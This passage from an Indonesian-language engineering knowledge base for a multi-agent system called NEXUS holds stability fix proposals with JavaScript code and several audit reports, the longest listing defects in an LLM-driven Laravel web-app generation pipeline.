**Solusi — Context-Aware Weights:**
```javascript
// DecisionEngine.js — Tambahkan weight profiles

const WEIGHT_PROFILES = {
    default:     { security: 0.5, stability: 0.3, performance: 0.1, readability: 0.1 },
    saas:        { security: 0.3, stability: 0.4, performance: 0.2, readability: 0.1 },
    security:    { security: 0.6, stability: 0.3, performance: 0.05, readability: 0.05 },
    performance: { security: 0.2, stability: 0.2, performance: 0.5, readability: 0.1 },
    refactor:    { security: 0.2, stability: 0.3, performance: 0.1, readability: 0.4 },
};

resolve(options, context = 'default') {
    const weights = WEIGHT_PROFILES[context] || WEIGHT_PROFILES.default;
    
    const ranked = options.map(opt => {
        let totalScore = 0;
        for (const criteria in weights) {
            totalScore += (opt.scores[criteria] || 0) * weights[criteria];
        }
        return { ...opt, final_score: totalScore, context_used: context };
    });

    ranked.sort((a, b) => b.final_score - a.final_score);
    return { winner: ranked[0], runner_up: ranked[1] };
}
```

---

### 7. Tidak Ada Agent Health Check 🟡

Saat ini tidak ada cara untuk mengetahui agent mana yang sedang aktif, mana yang idle, mana yang stuck. `activeAgents` di NexusEngine hanya `Set` tanpa status detail.

**Solusi — Agent Registry:**
```javascript
// Tambahkan class baru: agent/core/AgentRegistry.js

class AgentRegistry {
    constructor() {
        this._agents = new Map();
        // { agentId: { name, status, startedAt, lastActivity, taskCount, errorCount } }
    }

    register(agentId, name) {
        this._agents.set(agentId, {
            name,
            status: 'idle',       // idle | busy | failed | timeout
            startedAt: null,
            lastActivity: new Date().toISOString(),
            taskCount: 0,
            errorCount: 0
        });
    }

    markBusy(agentId, taskId) {
        const agent = this._agents.get(agentId);
        if (agent) {
            agent.status = 'busy';
            agent.startedAt = new Date().toISOString();
            agent.currentTask = taskId;
            agent.taskCount++;
        }
    }

    markIdle(agentId) {
        const agent = this._agents.get(agentId);
        if (agent) {
            agent.status = 'idle';
            agent.startedAt = null;
            agent.currentTask = null;
            agent.lastActivity = new Date().toISOString();
        }
    }

    markFailed(agentId, error) {
        const agent = this._agents.get(agentId);
        if (agent) {
            agent.status = 'failed';
            agent.errorCount++;
            agent.lastError = error;
        }
    }

    // Detect agent yang stuck (busy > threshold)
    getStuckAgents(thresholdMs = 60000) {
        const now = Date.now();
        return Array.from(this._agents.entries())
            .filter(([_, a]) => a.status === 'busy' && (now - new Date(a.startedAt).getTime()) > thresholdMs)
            .map(([id, a]) => ({ id, ...a }));
    }

    getHealthReport() {
        const agents = Array.from(this._agents.values());
        return {
            total: agents.length,
            idle: agents.filter(a => a.status === 'idle').length,
            busy: agents.filter(a => a.status === 'busy').length,
            failed: agents.filter(a => a.status === 'failed').length,
            stuck: this.getStuckAgents().length,
            agents: Object.fromEntries(this._agents)
        };
    }
}

module.exports = new AgentRegistry(); // Singleton
```

---

### 8. Tidak Ada Dead Letter Queue untuk Task Gagal 🟡

Saat ini kalau task gagal setelah 3 retry, event `TASK_FAILED` dipublish tapi tidak ada yang menyimpannya untuk analisis.

**Solusi — Dead Letter Queue:**
```javascript
// Tambahkan di Orchestrator.js

constructor(rootPath) {
    // ... existing code
    this.deadLetterQueue = []; // DLQ untuk task yang gagal permanen
    this.MAX_DLQ_SIZE = 100;
}

// Di handler TASK_FAILED:
EventBus.subscribe('TASK_FAILED', async (payload) => {
    // Simpan ke DLQ
    this.deadLetterQueue.push({
        ...payload,
        failed_at: new Date().toISOString(),
        can_retry: false
    });

    // Trim DLQ kalau terlalu besar
    if (this.deadLetterQueue.length > this.MAX_DLQ_SIZE) {
        this.deadLetterQueue.shift();
    }

    // Tulis ke disk untuk persistent analysis
    const dlqPath = path.join(this.rootPath, 'logs', 'dead_letter_queue.json');
    await fs.writeJson(dlqPath, this.deadLetterQueue, { spaces: 2 }).catch(() => {});
    
    console.error(`💀 Dead Letter: Task ${payload.task_id} failed permanently. Total DLQ: ${this.deadLetterQueue.length}`);
});

// Tambahkan method untuk review DLQ
getDLQReport() {
    return {
        total_failed: this.deadLetterQueue.length,
        by_agent: this.deadLetterQueue.reduce((acc, t) => {
            acc[t.error?.agent || 'unknown'] = (acc[t.error?.agent || 'unknown'] || 0) + 1;
            return acc;
        }, {}),
        tasks: this.deadLetterQueue
    };
}
```

---

### 9. MemoryPipeline Harvest Tanpa Versioning 🟡

**Diagnosis:**
```javascript
// MemoryPipeline.js
const dest = isRecords ? ... : path.join(this.knowledgePath, fileName);
await fs.writeFile(dest, content); // ← Langsung overwrite tanpa backup!
```

Kalau file di `memory/distilled/` sudah ada dan harvest menimpa dengan konten yang lebih buruk, tidak ada cara untuk rollback.

**Solusi — Versioned Write:**
```javascript
async versionedWrite(destPath, content) {
    if (await fs.pathExists(destPath)) {
        // Buat backup sebelum overwrite
        const timestamp = Date.now();
        const backupPath = destPath.replace('.md', `_backup_${timestamp}.md`);
        const archivePath = path.join(this.rootPath, 'memory', 'archived', path.basename(backupPath));
        
        await fs.copy(destPath, archivePath);
        console.log(`   💾 Versioned: ${path.basename(destPath)} → archived/`);
    }
    await fs.writeFile(destPath, content);
}

// Ganti fs.writeFile dengan versionedWrite di processHarvestData
```

---

### 10. `nexus status` Belum Ada — Observability Buta 🟡

Saat ini tidak ada cara cepat untuk tahu health sistem secara keseluruhan.

**Solusi — Implementasi `nexus status`:**

```javascript
// Di agent/main.js, tambahkan handler:
case 'status':
    await engine.getSystemStatus();
    break;

// Di NexusEngine.js, tambahkan method:
async getSystemStatus() {
    const stress = await this.resourceMonitor.checkStress();
    const agentHealth = this.agentRegistry ? this.agentRegistry.getHealthReport() : null;
    const dlq = this.orchestrator ? this.orchestrator.getDLQReport() : null;
    const vectorCacheExists = await fs.pathExists(
        path.join(this.knowledgePath, '..', 'short_term', 'vector_index.json')
    );

    console.log('\n╔══════════════════════════════════════╗');
    console.log('║        NEXUS SYSTEM STATUS           ║');
    console.log('╠══════════════════════════════════════╣');
    console.log(`║ RAM Usage   : ${stress.metrics.mem_usage_pct}%`);
    console.log(`║ CPU Usage   : ${stress.metrics.cpu_usage_pct}%`);
    console.log(`║ Status      : ${stress.recommendation}`);
    console.log('╠══════════════════════════════════════╣');
    if (agentHealth) {
        console.log(`║ Agents Total: ${agentHealth.total}`);
        console.log(`║ Idle        : ${agentHealth.idle}`);
        console.log(`║ Busy        : ${agentHealth.busy}`);
        console.log(`║ Stuck       : ${agentHealth.stuck}`);
    }
    console.log('╠══════════════════════════════════════╣');
    if (dlq) {
        console.log(`║ Dead Letter : ${dlq.total_failed} tasks`);
    }
    console.log(`║ Vector Index: ${vectorCacheExists ? '✅ Cached' : '❌ Not built'}`);
    console.log('╚══════════════════════════════════════╝\n');
}
```

---

## Prioritas Implementasi

### 🔴 Lakukan Segera (Stability Blocker)

| # | Fix | Dampak Kalau Tidak Dilakukan |
| :--- | :--- | :--- |
| 1 | Circuit Breaker di `Promise.all` | 1 agent gagal = seluruh audit crash |
| 2 | Fix `ResourceMonitor` CPU = 0% | Sistem tidak tahu kalau CPU 100% |
| 3 | Stale Lock Detection di `MemoryGovernor` | Permanent deadlock kalau process crash |

### 🟡 Sprint Berikutnya (Reliability)

| # | Fix | Dampak Kalau Tidak Dilakukan |
| :--- | :--- | :--- |
| 4 | EventBus Schema Validation | Agent buggy bisa corrupt event stream |
| 5 | AgentRegistry + Health Check | Tidak bisa detect agent yang stuck |
| 6 | Dead Letter Queue | Task gagal hilang tanpa trace |
| 7 | Versioned Write di MemoryPipeline | Harvest bisa overwrite knowledge yang bagus |

### 🟢 Enhancement (Maturity)

| # | Fix | Benefit |
| :--- | :--- | :--- |
| 8 | Lazy Loading di NexusEngine | Startup lebih cepat, RAM lebih hemat |
| 9 | Context-Aware Weights di DecisionEngine | Keputusan lebih akurat per domain |
| 10 | Implementasi `nexus status` | Observability real-time |

---

## Prinsip Akhir

```
Stability Rule #1: Satu agent gagal TIDAK BOLEH crash agent lain.
Stability Rule #2: Satu write gagal TIDAK BOLEH corrupt knowledge yang sudah ada.
Stability Rule #3: Sistem HARUS bisa bilang kondisi dirinya sendiri kapanpun.
```

Kalau tiga aturan ini terpenuhi, NEXUS siap jalan 24 jam autonomous.

---

> **METADATA (NEXUS SEMANTIC TAGS)**: [architecture, performance, stability, tdd, multi-agent, observability]  
> **Status**: READY_FOR_IMPLEMENTATION  
> *Senior AI Engineer Review | NEXUS Multi-Agent Stability v1.0*

### 📘 KNOWLEDGE: NEXUS_AUDIT_SUMMARY_10_LOOP_SCAN.MD

# 🎓 NEXUS SPECIALIST AUDIT: 10-LOOP DEEP SCAN
> **VERSION**: v3.0.0 | **ID**: AUDIT-10-LOOP-SCAN | **DATE**: 2026-05-10
> **AGENT**: Nexus Orchestrator (Simulated) | **MODE**: Learning (Adik Simba)

---

## 📊 EXECUTIVE SUMMARY
Audit ini dilakukan melalui 10 putaran pemindaian mendalam (*deep scan*) untuk memvalidasi integritas arsitektur v3.0.0. Sistem menunjukkan stabilitas tinggi namun memiliki beberapa celah kritis pada layer pengujian otomatis.

### 🔍 FINDINGS BY LOOP
| Loop | Focus Area | Status | Key Finding |
| :--- | :--- | :--- | :--- |
| 1 | Core Lifecycle | ✅ | NexusEngine states are robust. |
| 2 | Knowledge HUB | ✅ | Distiller shelving & linking optimized. |
| 3 | Evolution Engine | ✅ | Machinist integration logic verified. |
| 4 | Quality (TDD) | 🔴 | Orchestrator test is a placeholder. |
| 5 | Tooling/Sandbox | ✅ | Secure execution via SandboxExecutor. |
| 6 | Documentation | ✅ | Integration algorithm is up-to-date. |
| 7 | Security | ✅ | .htaccess & .env protection active. |
| 8 | CLI UX | ✅ | Safe uninstall & update protocols verified. |
| 9 | Repo Hygiene | ⚠️ | Residual scratch files detected. |
| 10 | Strategy | ✅ | Performance & Scalability roadmap clear. |

---

## 🔍 FINDINGS & DEVELOPER INSIGHTS (Protokol ADIK SIMBA)

### [CRITICAL] Orchestrator Test Logic Missing
- **📦 Apa**: File `tests/TDD/Orchestrator.test.js` hanya berisi placeholder `expect(orchestrator).toBeDefined()`.
- **📍 Di mana**: `tests/TDD/Orchestrator.test.js`
- **🕒 Kapan**: Terdeteksi pada Loop 4 (Quality Assurance).
- **👤 Siapa**: Agent **Nexus Orchestrator**.
- **🧐 Mengapa**: Pengujian siklus hidup agent sangat krusial; tanpanya, regresi pada logika orkestrasi tidak akan terdeteksi.
- **🛠️ Bagaimana**: Implementasikan test case untuk `manage agent lifecycle` dan `routeTask`.

### [WARNING] Scanned Scratch Files
- **📦 Apa**: Folder `scratch/` masih berisi file sisa pengembangan.
- **📍 Di mana**: `/scratch`
- **🕒 Kapan**: Terdeteksi pada Loop 9 (Repo Hygiene).
- **👤 Siapa**: Agent **VCS Architect**.
- **🧐 Mengapa**: File sampah dapat mengotori hasil scan auditor dan mengaburkan metrik proyek.
- **🛠️ Bagaimana**: Lakukan pembersihan berkala atau tambahkan aturan `.gitignore` yang lebih ketat.

### [INFO] Knowledge Distillation Coverage
- **📦 Apa**: Distiller telah berhasil mengelompokkan 8 domain pengetahuan.
- **📍 Di mana**: `knowledge/` (standards, security, performance, etc.)
- **🕒 Kapan**: Terdeteksi pada Loop 2 (Knowledge HUB).
- **👤 Siapa**: Agent **Documentation Architect**.
- **🧐 Mengapa**: Menunjukkan keberhasilan fase migrasi wisdom.
- **🛠️ Bagaimana**: Teruskan pengisian HUB dengan artikel terbaru untuk meningkatkan IQ sistem.

---

## 🚀 STRATEGIC RECOMMENDATIONS
1. **Full TDD Activation**: Selesaikan semua placeholder di folder `tests/`.
2. **Worker Thread Distillation**: Optimasi performa `Distiller` untuk skala besar.
3. **Machine Template Upgrade**: Tingkatkan kecerdasan template kode hasil forge.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [audit, deep-scan, tdd, architecture, quality-assurance]
*Generated by Nexus Engine | Status: Verified*

### 📘 KNOWLEDGE: NEXUS_AUDIT_V320_AUTONOMOUS_READINESS.MD

# 🎓 NEXUS SPECIALIST AUDIT: AUTONOMOUS READINESS (v3.2.0 PREP)
> **VERSION**: v3.1.0 | **ID**: AUDIT-v320-READINESS | **DATE**: 2026-05-10
> **AGENT**: Nexus Strategic Architect | **MODE**: Visionary Audit

---

## 📊 EXECUTIVE SUMMARY
Audit ini mengevaluasi kesiapan infrastruktur Nexus AI untuk bertransformasi dari *Documentation-First Framework* menjadi *Full Autonomous Multi-Agent System*. Versi 3.1.0 telah memberikan pondasi waktu (UTC+8) dan stabilitas TDD yang sangat baik, namun masih memiliki keterbatasan pada layer kognitif dan kesadaran sumber daya.

### 🔍 INFRASTRUCTURE READINESS CHECK
| Component | Status | Insight |
| :--- | :--- | :--- |
| Time Governance | ✅ | NexusClock enforces UTC+8 across all logs. |
| Cognitive Search | ⚠️ | Current glob/regex approach is too rigid for complex reasoning. |
| Resource Awareness | 🔴 | Engine lacks visibility into Docker/System CPU & RAM metrics. |
| Conflict Logic | 🟡 | Multi-Option merge is functional but requires manual resolution. |
| Skill Acquisition | 🟡 | Harvesting is local-only; no external autonomous learning. |

---

## 🔍 FINDINGS & ARCHITECTURAL GAPS

### [WARNING] Semantic Retrieval Limitation
- **📦 Apa**: Sistem pencarian pengetahuan masih mengandalkan pencocokan string statis.
- **📍 Di mana**: `agent/core/Distiller.js` & `NexusEngine.js`
- **🧐 Mengapa**: Untuk skala proyek besar, agent butuh kemampuan menemukan solusi berdasarkan konteks makna, bukan sekadar kata kunci.
- **🛠️ Rekomendasi**: Implementasikan Vector Embedding bridge.

### [CRITICAL] Docker Resource Blindness
- **📦 Apa**: Engine tidak memiliki sensor untuk mendeteksi beban kerja container.
- **📍 Di mana**: `agent/core/NexusEngine.js`
- **🧐 Mengapa**: Saat masuk ke Docker, agent yang terlalu agresif bisa menyebabkan *out-of-memory* (OOM) pada container.
- **🛠️ Rekomendasi**: Tambahkan `ResourceMonitor` agent.

### [INFO] TDD Stability Verified
- **📦 Apa**: Seluruh core logic kini terlindungi oleh unit test yang valid.
- **📍 Di mana**: `/tests/TDD`
- **🧐 Mengapa**: Memberikan rasa aman (safety net) untuk melakukan refactoring besar di v3.2.0.

---

## 🚀 STRATEGIC VISION
Sistem harus berevolusi dari sekadar "pelaksana tugas" menjadi "sistem yang sadar diri" (self-aware) dan "mampu belajar sendiri" (self-evolving).

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [audit, autonomous, multi-agent, docker-readiness, roadmap]
*Generated by Nexus Strategic Architect | Status: Verified*

### 📘 KNOWLEDGE: NEXUS_SANDBOX_PIPELINE_EXTREME_AUDIT.MD

# 🔴 NEXUS SANDBOX PIPELINE — EXTREME AUDIT REPORT

**Auditor**: Antigravity (Claude Opus 4.6)
**Tanggal**: 2026-05-19
**Scope**: Seluruh pipeline `nexus sandbox` — dari spawning hingga stability verification
**Target**: Menghasilkan WEB APP 100% JADI (bukan MVP) untuk setiap project
**Files Scanned**: 40+ core modules, 4 sandbox outputs, 16 TDD/runner scripts

---

## 📊 RINGKASAN EKSEKUTIF

| Kategori | CRITICAL | HIGH | MEDIUM | LOW |
|----------|----------|------|--------|-----|
| Code Generation (LLM Output) | 5 | 3 | 2 | - |
| Legacy Template Contamination | 2 | 2 | 1 | - |
| Missing Web App Features | 3 | 6 | 4 | - |
| Stability & Self-Healing | 2 | 3 | 1 | - |
| Blueprint & Architecture | 2 | 2 | 2 | - |
| Pipeline Orchestration | 1 | 2 | 2 | 1 |
| Data & Security | 1 | 1 | 1 | - |
| **TOTAL** | **16** | **19** | **13** | **1** |

**Verdict**: Pipeline TIDAK MAMPU menghasilkan web app 100% jadi. Output saat ini setara **~25-35% MVP**.

---

## 🔴 KATEGORI 1: CODE GENERATION (LLM OUTPUT) — BROKEN AT CORE

### C1-01 [CRITICAL] Migration PHP Syntax Error — Missing Semicolon
- **File**: `agent/core/phases/ImplementationPhase.js:126-148`
- **Evidence**: Terminal log → `ParseError: syntax error, unexpected end of file, expecting ";"` pada `create_notes_table.php:25`
- **Root Cause**: File migration yang digenerate LLM (qwen2.5-coder:1.5b) kehilangan semicolon `;` di akhir anonymous class. Line 25 berisi `}` tanpa `;` — seharusnya `};`.
- **Impact**: `php artisan migrate` gagal total → database kosong → app crash.
- **Fix**: Tambahkan post-processing di `generateMigration()`:
```js
if (cleanCode.includes('return new class') && !cleanCode.trimEnd().endsWith(';')) {
    cleanCode = cleanCode.trimEnd() + ';';
}
```

### C1-02 [CRITICAL] Model Tidak Pakai HasUuids Padahal Migration Pakai UUID
- **File**: `ImplementationPhase.js:110-124` vs output `Note.php`
- **Evidence**: Migration generate `$table->uuid('id')->primary()` tapi Model Note.php TIDAK punya `use HasUuids;` trait dan tidak set `$keyType = 'string'` atau `$incrementing = false`.
- **Impact**: Eloquent akan coba auto-increment integer ID → conflict dengan UUID column → insert gagal.

### C1-03 [CRITICAL] Note Model Pakai SoftDeletes Tapi Migration Tidak Ada `deleted_at`
- **File**: Output `Note.php:12` vs `create_notes_table.php`
- **Evidence**: Model punya `use SoftDeletes;` tapi migration tidak ada `$table->softDeletes();`
- **Impact**: Setiap query akan error `column deleted_at does not exist`.

### C1-04 [CRITICAL] `cleanLLMOutput()` Tidak Handle Semua Format LLM
- **File**: `ImplementationPhase.js:179-188`
- **Evidence**: Hanya handle ` ```php `, ` ```html `, ` ```blade `. Tidak handle: output dengan penjelasan teks sebelum code block, multiple code blocks, atau komentar liar di luar PHP block.
- **Impact**: Karakter sampah masuk ke file PHP → syntax error.

### C1-05 [CRITICAL] `num_ctx: 4096` Terlalu Kecil Untuk Generate Full Component
- **File**: `LocalIntelligence.js:173`
- **Evidence**: `num_ctx: 4096` → model hanya "melihat" ~4096 token (~3000 kata). Untuk generate Livewire component lengkap dengan CRUD, relationships, validation, pagination — SANGAT tidak cukup.
- **Impact**: Output terpotong di tengah function → syntax error PHP → app crash.
- **Fix**: Naikkan `num_ctx` minimal ke `8192` untuk task `build_*`.

### C1-06 [HIGH] NoteManager Tidak Punya `title` Field
- **File**: Output `NoteManager.php:20-31`
- **Evidence**: `saveNote()` hanya set `content` tapi migration punya `title` (NOT NULL). Insert akan gagal karena missing required field.

### C1-07 [HIGH] NoteManager Mengasumsikan Auth Tanpa Auth System
- **File**: Output `NoteManager.php:17`
- **Evidence**: `Auth::user()->notes` dipanggil tapi tidak ada authentication route, middleware, atau login page yang digenerate.
- **Impact**: `Call to a member function notes() on null` → 500 error pada halaman utama.

### C1-08 [HIGH] Tidak Ada Relationship `tags()` di Note Model
- **File**: Output `Note.php`
- **Evidence**: Project bernama "notes-app-**tagging**" tapi Note model TIDAK punya `tags()` relationship dan tidak ada pivot table `note_tag`.
- **Impact**: Fitur inti tagging tidak berfungsi sama sekali.

### C1-09 [MEDIUM] Blueprint Tidak Generate Pivot Table
- **File**: `NexusEngine.js:386-392`
- **Evidence**: Prompt blueprint hanya minta `models`, `migrations`, `livewire_components`. Tidak ada field untuk pivot tables, seeders, factories, middleware, atau routes.

### C1-10 [MEDIUM] `temperature: 0.1` Terlalu Rendah Untuk Code Generation
- **File**: `LocalIntelligence.js:172`
- **Evidence**: Temperature 0.1 membuat model sangat repetitif dan konservatif. Untuk code generation yang butuh kreativitas (UI, business logic), menghasilkan output generik dan minimalis.

---

## 🔴 KATEGORI 2: LEGACY TEMPLATE CONTAMINATION

### C2-01 [CRITICAL] Legacy `Url.php` Model Tidak Terhapus
- **File**: `tests/sandboxes/notes-app-tagging/app/Models/Url.php`
- **Evidence**: File `Url.php` (dari template url-shortener) masih ada di notes-app-tagging. Clean Code phase gagal menghapusnya karena `Url` tidak cocok dengan hardcoded patterns `['UrlShortener', 'UrlMapping', 'ShortenUrl', 'UrlController']`.
- **Fix**: Hapus SEMUA model/migration yang tidak ada di blueprint.

### C2-02 [CRITICAL] Legacy Migration `create_urls_table` Masih Ada
- **File**: `tests/sandboxes/notes-app-tagging/database/migrations/2026_05_13_000000_create_urls_table.php`
- **Evidence**: Migration url-shortener template tidak dibersihkan. Membuat table `urls` yang tidak relevan di database.

### C2-03 [HIGH] Clean Code Hanya Deteksi Livewire Files, Bukan Models/Migrations
- **File**: `ExecutionPhase.js:128-154`
- **Evidence**: Logic cleanup hanya cek `app/Livewire` dan `resources/views/livewire` terhadap blueprint. TIDAK cek `app/Models`, `database/migrations`, atau `app/Http/Controllers`.

### C2-04 [HIGH] Legacy Pattern List Hardcoded
- **File**: `ExecutionPhase.js:122-123`
- **Evidence**: `legacyPatterns = ['UrlShortener', 'UrlMapping', 'ShortenUrl', 'UrlController']` — hanya cover 4 string. Tidak adaptif terhadap perubahan template.

### C2-05 [MEDIUM] Template Copy Tidak Filter Models dari Template
- **File**: `phase1_testing.js:61-68`
- **Evidence**: `fs.copy()` filter hanya skip `nexus/`, `node_modules/`, `vendor/`. Tidak skip `app/Models/Url.php` atau migration template-specific.

---

## 🔴 KATEGORI 3: MISSING WEB APP FEATURES (Jauh dari 100%)

### C3-01 [CRITICAL] Tidak Ada Authentication System
- **Evidence**: Tidak ada generate untuk Login/Register pages, auth middleware, auth routes (`Route::middleware('auth')`), atau Breeze/Jetstream/Fortify installation.
- **Impact**: Livewire components yang pakai `Auth::user()` pasti crash.

### C3-02 [CRITICAL] Tidak Ada Database Seeder & Factory
- **Evidence**: Blueprint schema tidak punya field `seeders` atau `factories`. Tidak ada `UserSeeder` dengan admin account, `NoteFactory` untuk dummy data, atau `DatabaseSeeder` yang memanggil seeder.
- **Impact**: App berjalan dengan database kosong. User harus manual insert data.

### C3-03 [CRITICAL] Tidak Ada Route Generation
- **File**: Output `routes/web.php` — hanya punya `/` → welcome
- **Evidence**: Tidak ada route untuk CRUD operations, API endpoints, atau resource routes.
- **Impact**: Semua fitur hanya accessible via Livewire di homepage. Tidak ada proper URL structure.

### C3-04 [HIGH] Tidak Ada Middleware Generation
- **Evidence**: Tidak generate middleware untuk role-based access control, API rate limiting, atau CORS configuration.

### C3-05 [HIGH] Tidak Ada Layout/Template System
- **Evidence**: `welcome.blade.php` langsung embed komponen tanpa proper layout — tidak ada navigation bar, sidebar, footer, atau `@extends('layouts.app')` pattern.

### C3-06 [HIGH] Tidak Ada Form Validation Rules
- **Evidence**: `NoteManager.saveNote()` hanya cek `!empty($this->newNote)`. Tidak ada `$this->validate([...])` rules atau error message display.

### C3-07 [HIGH] Tidak Ada Pagination
- **Evidence**: `NoteManager.mount()` load `Auth::user()->notes` — load SEMUA notes tanpa pagination. Untuk ribuan records, ini akan crash.

### C3-08 [HIGH] Tidak Ada Error Handling di Components
- **Evidence**: Tidak ada try-catch di Livewire methods. Tidak ada flash messages untuk success/error feedback.

### C3-09 [HIGH] Tidak Ada Search/Filter Functionality
- **Evidence**: Model `Note` punya `scopeSearch()` tapi NoteManager component TIDAK menggunakannya.

### C3-10 [MEDIUM] Tidak Ada CSS/Tailwind Build yang Proper
- **Evidence**: `welcome.blade.php` pakai `@vite(...)` tapi tidak ada custom Tailwind config per project.

### C3-11 [MEDIUM] Tidak Ada Testing (PHPUnit/Pest)
- **Evidence**: Tidak ada test files yang digenerate untuk models, components, atau features.

### C3-12 [MEDIUM] Tidak Ada Config/ENV Customization
- **Evidence**: `.env` hanya diganti `APP_NAME`. Tidak ada `MAIL_*`, `QUEUE_*`, `BROADCAST_*` setup.

### C3-13 [MEDIUM] Tidak Ada API Endpoints
- **Evidence**: Untuk project seperti "todo-app-realtime", seharusnya ada API endpoints untuk mobile/SPA consumption.

---

## 🔴 KATEGORI 4: STABILITY & SELF-HEALING FAILURES

### C4-01 [CRITICAL] Self-Healing Cari File yang Tidak Ada
- **File**: `ExecutionPhase.js:350-406`
- **Evidence terminal**: `⚠️ Target file app/Livewire/Component.php does not exist.`
- **Root Cause**: Self-healing prompt meminta LLM suggest fix — tapi LLM halusinasi path file yang tidak ada. LLM 1.5b tidak bisa reliably menebak struktur file project.
- **Fix**: Berikan daftar file yang ADA di project sebagai context ke self-healing prompt.

### C4-02 [CRITICAL] Self-Healing JSON Parse Error
- **Evidence terminal**: `❌ Self-healing failed to parse AI response: Bad escaped character in JSON at position 174`
- **Root Cause**: LLM output mengandung karakter escape tidak valid dalam JSON. `cleanLLMOutput` tidak dipanggil di `selfHeal()`.
- **Fix**: Tambahkan JSON sanitization sebelum `JSON.parse()`:
```js
jsonString = jsonString.replace(/[\x00-\x1F\x7F]/g, '');
```

### C4-03 [HIGH] Stability Loop Bisa Infinite Loop
- **File**: `ExecutionPhase.js:183-221`
- **Evidence**: Saat self-healing "berhasil" (`i--`), counter dikurangi. Jika healing applied tapi TIDAK memperbaiki root cause, loop infinite: heal → retry → fail → heal...
- **Fix**: Tambahkan max total attempts counter terpisah dari iteration counter.

### C4-04 [HIGH] Process Leak pada Stability Loop
- **File**: `ExecutionPhase.js:189-220`
- **Evidence**: Ketika service fail, proses di-kill via `taskkill`. Tapi:
  1. `taskkill` bisa gagal (process already dead)
  2. Tidak ada `await` pada `spawn('taskkill'...)` — fire and forget
  3. Port bisa masih occupied dari proses sebelumnya
- **Impact**: Zombie processes menumpuk, port habis.

### C4-05 [HIGH] `getAvailablePort()` Masih Rekursif
- **File**: `ExecutionPhase.js:333-348`
- **Evidence**: Meskipun ada comment "FIX #26", implementasi MASIH rekursif. Dengan range 8001-9000, bisa 999 level deep recursion → stack overflow.

### C4-06 [MEDIUM] `waitForService()` Timeout 30s Mungkin Kurang
- **File**: `ExecutionPhase.js:192-194`
- **Evidence**: Di Ryzen 2500U, startup bisa lebih dari 30 detik. Menyebabkan false-negative "service crashed".

---

## 🔴 KATEGORI 5: BLUEPRINT & ARCHITECTURE GAPS

### C5-01 [CRITICAL] Blueprint Schema Terlalu Sederhana
- **File**: `NexusEngine.js:386-392`
- **Evidence**: Blueprint hanya punya 4 field: `project_name`, `models`, `migrations`, `livewire_components`. Untuk 100% web app, MINIMAL perlu: `seeders`, `factories`, `middleware`, `routes`, `policies`, `events`, `relationships`, `pivot_tables`.

### C5-02 [CRITICAL] Blueprint Prompt Tidak Cukup Detail
- **File**: `NexusEngine.js:373-392`
- **Evidence**: Prompt terlalu abstrak untuk model 1.5B. Model kecil butuh instruksi SANGAT spesifik dengan contoh lengkap per-field.

### C5-03 [HIGH] Tidak Ada Validasi Relationship Antar Model
- **Evidence**: Blueprint tidak minta AI define relationships (belongsTo, hasMany, belongsToMany). Model digenerate tanpa relationship methods → component crash.

### C5-04 [HIGH] Tidak Ada Phase Untuk Generate Routes
- **File**: `ImplementationPhase.js`
- **Evidence**: Phase hanya generate Models → Migrations → Livewire Components → Bootstrap. Tidak ada step untuk generate `routes/web.php`, `routes/api.php`, atau register Livewire routes.

### C5-05 [MEDIUM] `blueprintApp()` Skip Jika README Tidak Contain 'Laravel'
- **File**: `NexusEngine.js:368-371`
- **Evidence**: `isNexusManaged` check `readmeContent.includes('Laravel')`. Tapi README digenerate pipeline TIDAK mengandung kata "Laravel" — hanya "TALL Stack Sandbox".
- **Impact**: Pada RE-RUN, blueprint bisa di-skip.

### C5-06 [MEDIUM] Tidak Ada Blueprint Versioning
- **Evidence**: `blueprintApp()` skip jika `NEXUS_BLUEPRINT.json` sudah ada. Tidak ada mekanisme update jika requirements berubah.

---

## 🔴 KATEGORI 6: PIPELINE ORCHESTRATION

### C6-01 [CRITICAL] Section 1 Hanya 9 Project, Bukan 10
- **File**: `phase1_testing.js:16-26`
- **Evidence**: `PHASE_1_PROJECTS` hanya 9 item. "URL Shortener" (item ke-10 dari daftar) tidak ada di array karena dipakai sebagai template. Total project menjadi 99, bukan 100.

### C6-02 [HIGH] Section 2 Tidak Panggil `cleanCodeAndVerify()`
- **File**: `setup_section2.js:108-116`
- **Evidence**: Setelah `engine.runCycle()`, langsung `engine.harvest()`. TIDAK ada `engine.cleanCodeAndVerify(targetPath)` seperti di section 1 dan dynamic sections.
- **Impact**: Section 2 projects masih penuh legacy clutter.

### C6-03 [HIGH] `_doRunCycle()` Tidak Include `cleanCodeAndVerify`
- **File**: `NexusEngine.js:322-355`
- **Evidence**: `_doRunCycle()` TIDAK memanggil `cleanCodeAndVerify()`. Tapi interactive mode (`main.js:107`) memanggilnya terpisah. Inkonsistensi → sandbox pipeline yang pakai `runCycle()` TIDAK mendapat cleanup.

### C6-04 [MEDIUM] Multiple NexusEngine Instances Per Project
- **File**: `phase1_testing.js:111,140`
- **Evidence**: Dua `NexusEngine` dibuat — satu di `runPhase1()` (line 140) dan satu di `setupTALLProject()` (line 111). Engine pertama tidak digunakan.

### C6-05 [MEDIUM] `process.exit()` Force-Kill Node
- **File**: `phase1_testing.js:168`, `setup_section2.js:154`
- **Evidence**: `process.exit()` force-kill Node → pending async operations (Redis write, file write) mungkin tidak selesai.

### C6-06 [LOW] README Inject Tidak Konsisten Antar Sections
- **Evidence**: Format README berbeda-beda antar section runners.

---

## 🔴 KATEGORI 7: DATA & SECURITY

### C7-01 [CRITICAL] Double Migration Conflict
- **File**: `phase1_testing.js:100` + `ImplementationPhase.js:70`
- **Evidence**: `migrate:fresh --force` dilakukan SEBELUM Nexus cycle. Lalu cycle juga run `php artisan migrate --force --seed`. Double migration bisa cause schema conflicts.

### C7-02 [HIGH] `.env` File Exposed di Sandbox
- **Evidence**: Setiap sandbox punya `.env` dengan `APP_KEY`. Jika sandbox di-commit ke git, secrets bocor.

### C7-03 [MEDIUM] `deleteNote()` Tidak Ada Authorization
- **File**: Output `NoteManager.php:33-36`
- **Evidence**: `Note::find($id)->delete()` — siapapun bisa delete note milik orang lain. Tidak ada policy check.

---

## 🎯 PRIORITAS PERBAIKAN (Roadmap)

### Phase A — STOP THE BLEEDING (1-2 hari)
1. Fix `cleanLLMOutput()` — semicolon enforcement untuk anonymous class migration
2. Fix legacy cleanup — hapus SEMUA file yang tidak ada di blueprint (models, migrations, controllers)
3. Fix self-healing JSON parse — sanitize LLM output sebelum parse
4. Naikkan `num_ctx` ke minimal 8192 untuk task `build_*`
